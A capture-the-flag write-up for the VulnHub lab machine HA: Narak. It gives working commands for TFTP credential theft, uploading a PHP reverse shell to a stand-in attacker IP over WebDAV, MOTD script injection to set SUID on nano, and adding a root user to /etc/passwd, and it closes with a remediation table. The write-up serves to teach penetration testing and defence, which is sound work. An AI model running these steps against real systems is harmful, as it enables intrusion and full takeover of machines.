





# HA: Narak — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.136 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Root Flag** | /root/root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-narak,569/) |

## Attack Summary

`nmap` → `dirb` finds `/webdav` + `tips.txt` → UDP scan finds TFTP (69) → `tftp get creds.txt` → Base64 decode → `cadaver` WebDAV upload PHP shell → `www-data` → Brainfuck decode in `/mnt/hell.sh` → SSH as `inferno` → MOTD script injection (`/etc/update-motd.d/00-header`) → nano SUID → edit `/etc/passwd` → root

## Methodology

1. Network discovery
2. TCP + UDP port scan
3. Web enumeration — WebDAV and tips.txt
4. TFTP credential retrieval and Base64 decode
5. WebDAV PHP shell upload via cadaver
6. Post-exploitation — Brainfuck encoded script
7. SSH lateral move to `inferno`
8. MOTD injection → nano SUID → /etc/passwd edit → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.136
```

Open ports: **22 (SSH)**, **80 (HTTP)**



---

## Step 2: Web Enumeration

```bash
dirb http://192.168.0.136/
dirb http://192.168.0.136/ -X .txt
```

Finds: `/webdav` (requires HTTP auth), `tips.txt` (points to `creds.txt`), `/igolder/`



---

## Step 3: TFTP — Credential Retrieval

TCP scan misses TFTP. Run a UDP scan:

```bash
nmap -sU -p 69 192.168.0.136
# 69/udp open  tftp
```

Retrieve `creds.txt` over TFTP:

```bash
tftp 192.168.0.136
tftp> get creds.txt
tftp> quit
cat creds.txt
echo "eWFtZG9vdDpTd2FyZw==" | base64 -d
# yamdoot:Swarg
```



---

## Step 4: WebDAV Shell Upload

Upload a PHP reverse shell using cadaver:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# edit: $ip='<ATTACKER_IP>'; $port=4444;

cadaver http://192.168.0.136/webdav
dav:/webdav/> open http://192.168.0.136/webdav
Authentication required; please enter credentials.
Username: yamdoot
Password: Swarg
dav:/webdav/> put shell.php
dav:/webdav/> quit
```

Start listener and trigger:

```bash
nc -lvp 4444
# browser: http://192.168.0.136/webdav/shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Step 5: Brainfuck Script Decode

```bash
find / -type f -perm -ug=rwx 2>/dev/null
cat /mnt/hell.sh
```

The script content is Brainfuck-encoded. Decode it (use dcode.fr or brainfuck interpreter):

```bash
# Decoded result: chitragupt
```



---

## Step 6: SSH as `inferno`

```bash
ssh inferno@192.168.0.136
# password: chitragupt
ls /home
cat /home/inferno/user.txt
```

---

## Step 7: MOTD Injection → nano SUID → Root

Append a command to the MOTD header script (runs as root at login):

```bash
echo "sudo chmod u+s /bin/nano" >> /etc/update-motd.d/00-header
```

Reconnect via SSH to trigger the MOTD:

```bash
ssh inferno@192.168.0.136
ls -la /bin/nano
# -rwsr-xr-x (SUID set)
```

Edit `/etc/passwd` with nano to add a root-level user:

```bash
openssl passwd -1 -salt user3 pass123
# $1$user3$rAGRVf5p2jYTqtqOW5cPu/

nano /etc/passwd
# append: jeenali:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash
```

Switch to the new user:

```bash
su jeenali
# password: pass123
id
# uid=0(root)
cd /root
cat root.txt
```



---

## Lessons Learned

1. **UDP scanning** is required — TFTP on port 69 is invisible to TCP-only scans
2. **TFTP has no authentication** by default — never expose it on the same segment as untrusted hosts
3. **Brainfuck/encoding in scripts** is a CTF technique for hiding passwords in plain sight
4. **MOTD scripts run as root at login** — world-writable MOTD files are trivial privilege escalation paths
5. **WebDAV PUT without restriction** allows arbitrary file upload and RCE

## Remediation

| Vulnerability | Fix |
|---|---|
| TFTP without authentication | Disable TFTP or restrict to specific IPs with firewall rules |
| WebDAV PUT with weak credentials | Disable WebDAV or enforce strong auth + restrict PUT to trusted IPs |
| Writable MOTD scripts | Set `/etc/update-motd.d/` files as `root:root 755`; audit writable paths |
| Brainfuck-encoded creds in scripts | Use a secrets manager; never store credentials in scripts |
| nano SUID | Never set SUID on editors; audit SUID binaries regularly (`find / -perm -4000`) |
